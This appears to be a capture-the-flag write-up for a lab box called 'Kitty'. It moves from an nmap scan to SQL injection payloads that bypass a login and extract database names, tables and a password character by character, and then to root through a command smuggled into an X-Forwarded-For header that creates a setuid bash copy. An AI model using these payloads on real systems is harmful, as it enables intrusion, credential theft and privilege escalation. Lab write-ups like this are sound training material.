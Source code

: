 # Kitty

10.10.237.211

## nmap

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http 80

sqli: user'-- -

```sh
wfuzz --hh 1147 -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt  -d "username=FUZZ%27--+-&password=sqdfqsdfsqdfsdf" http://10.10.181.136/index.php
```
=> kitty

### SQLI

```sql
' UNION SELECT 1,2,3,4-- -
```

=> 4 columns

#### DB (bf_databases.py)

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.schemata WHERE schema_name LIKE BINARY "a%"-- -
```

- devsite
- information_schema
- mywebsite
- performance_schema

#### TABLES (bf_tables.py)

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' AND table_name LIKE BINARY 'u%'-- -
```

For mywebsite:
- siteusers

For devsite:
- siteusers

#### COLUMNS (bf_columns.py)

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.COLUMNS WHERE table_schema = 'mywebsite' AND table_name = 'siteusers' AND COLUMN_NAME LIKE BINARY 'u%'-- -
```

For mywebsite:
- created_at
- id
- password
- username

For devsite:
- created_at
- id
- password
- username

#### PASSWORD (bf_password.py)

```sql
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username = 'kitty' AND password LIKE BINARY '{result}{char}%'-- -
```

L0ng_Liv3_KittY

## foothold

kitty:L0ng_Liv3_KittY

## root

In /opt/log_checker.sh, it reads content of /var/www/development/logged

It is filled when a forbidden word is used in index.php using field X-Forwarded-For

To access this page, we check /etc/apache2/sites-enabled/dev_site.conf
-> <VirtualHost 127.0.0.1:8080>

To visit it:
ssh -L 8081:localhost:8080 kitty@10.10.39.28

Use the password 'sleep' to trig "SQL Injection detected. This incident will be logged"

In burp:
X-Forwarded-For: && cp /bin/bash /tmp/kikou && chmod +s /tmp/kikou
